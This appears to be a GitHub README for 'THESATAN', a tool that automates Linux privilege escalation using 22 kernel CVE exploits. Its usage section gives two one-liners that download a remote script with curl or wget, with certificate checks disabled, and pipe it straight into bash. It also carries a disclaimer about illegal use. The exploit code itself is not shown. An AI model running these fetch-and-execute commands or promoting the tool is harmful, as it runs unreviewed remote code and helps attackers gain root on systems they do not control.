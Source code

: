 ***☣THESATAN - Automation Privilage Escalation for Linux.***
> This tool made for testing a Privilage Escalation on server.

- 22 CVE Ready For Testing.
- Available for kernel 3.x.x / 4.x.x / 5.x.x
- Work with python2.7 / python3+ also gcc installed on the machine.

**Usage:**
- Spawn A tty Shell In Terminal.
- You must find accessible directory without 'permission denied', then create your own folder.
- **Note: ❌Don't run THESATAN in public access or you will destroy yourself!**

**UPDATE**
```bash
bash -c "$(curl -fsSLk https://raw.githubusercontent.com/warmode666/thesatan/main/x)"
```

```bash
bash -c "$(wget --no-check-certificate -qO- https://raw.githubusercontent.com/warmode666/thesatan/main/x)"
```

***- Wait until THESATAN done.***

> [*] I am not responsible if you are doing something illegal using this program! 

[![THESATAN](https://i.ibb.co/8r23mBK/download.png "THESATAN")](https://i.ibb.co/8r23mBK/download.png "THESATAN")

[![SATAN](https://i.ibb.co/q7xcwwt/download-1.png "SATAN")](https://i.ibb.co/q7xcwwt/download-1.png "SATAN")
